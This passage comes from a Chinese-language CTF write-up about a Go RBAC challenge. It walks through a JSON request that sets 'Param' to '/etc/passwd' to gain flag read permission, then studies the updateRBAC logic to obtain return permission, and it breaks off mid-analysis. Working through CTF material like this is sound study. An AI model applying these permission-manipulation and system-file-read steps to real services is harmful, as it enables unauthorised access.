 
​	我们现在可以通过`change_read`获取flag的read权限，我们可以发送如下请求：

```json	
{
    "File": [
        "read"
    ],
    "Directory": [

    ],
    "Pwd": [

    ],
    "Flag": [
        "read"
    ],
    "Param": "/etc/passwd"
}
```

​	当前权限如下：

```json
{
    "Success": true,
    "Data": {
        "directory:read": 0,
        "directory:return": 0,
        "file:read": 1,
        "file:return": 0,
        "flag:read": 1,
        "flag:return": 0,
        "pwd:read": 0,
        "rbac:change_read": 1,
        "rbac:change_return": 0,
        "rbac:read": 1
    }
}
```

​	此时由于缺少参数，按照程序处理逻辑，跳过了`initRBAC()`不会重置权限，此时我们的目标就是获取到Flag的return权限。

​	为了获取到flag的retuan权限，我们就要卡出`rbac:change_return`为1。

​	在`updateRBAC()`中想要使得`rbac:change_return`为1,那么就要`rbac:change_return:1`，在源代码中

```go
RBACToGrant["rbac:change_return:1"] = 1
RBACToGrant["file:"+value] = 1
RBACToGrant["rbac:change_return:0"] = 1
```

将`rbac:change_return:1`置为1并且将`rbac:change_return:0`也置为1,但是在后续处理中

```go
if strings.HasSuffix(key, ":return") {
	if RBACList["rbac:change_return"] == 1 {
		RBACList[key] = value
	}
} else if key == "rbac:change_return:1" {
	RBACList["rbac:change_return"] = 1
} else if key == "rbac:change_return:0" {
	RBACList["rbac:change_return"] = 0
} else {
	RBACList[key] = value
}
```
